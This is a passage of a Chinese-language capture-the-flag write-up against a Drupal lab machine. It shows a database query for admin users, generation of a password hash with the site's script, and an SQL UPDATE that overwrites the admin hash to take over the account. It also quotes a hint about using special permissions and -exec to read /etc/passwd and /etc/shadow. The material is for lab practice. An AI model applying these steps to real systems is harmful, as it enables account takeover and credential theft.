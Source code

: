 ![image-20221001092022906](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010920077.png)

拿到数据库权限，我们就可以对数据库进行操作。比如更改网站后台密码，登录网站。

我们要找到管理员用户，一般先看user表``select * from users;``

![image-20221001092413844](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010924896.png)

```
|   1 | admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com | 
```

很明显，密码被加密了，因为hash值解密比较困难，所以我们要改它的密码，也要进行同样加密。

![image-20221001093029471](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010930506.png)

继续在网站的目录中找线索，``/var/www``文件夹下有一个``scripts``文件夹，打开查看到``password-hash.sh``

```
php scripts/password-hash.sh password
password: password              
hash:$S$DOAhrLBjPOqUqWJJz6pPrPnunYisL8PX.CHbWEqf9ZT8kAhw0yUP

password: luminary              
hash:$S$DfzVUzddHY8MWEz2e05xxB6NJRgKTXmqgBPi0Z04/K68lIkxGdX1

```

![image-20221001093807185](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010938211.png)

使用``password-hash.sh``文件生成自己的密码hash值替换数据库的hash，然后我们就能用自己的密码登录后台

```
update drupaldb.users set pass="$S$DYyHOGvUlVey/TRbXOU7.Gsp2wKX.9Q9Jt/SFd085Xhq.cAR.S0u" where name="admin"; ##修改密码
```

![image-20221001094156647](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010941679.png)

```
http://192.168.119.134/node/2#overlay-context=node/
```

![image-20221001095058920](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010950966.png)

```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

这里给的提示是让我们去看passwd和shadow，稍微懂一点linux都知道它们是linux文件

```
/etc/passwd
该文件存储了系统用户的基本信息，所有用户都可以对其进行文件操作读
/etc/shadow
该文件存储了系统用户的密码等信息，只有root权限用户才能读取
```
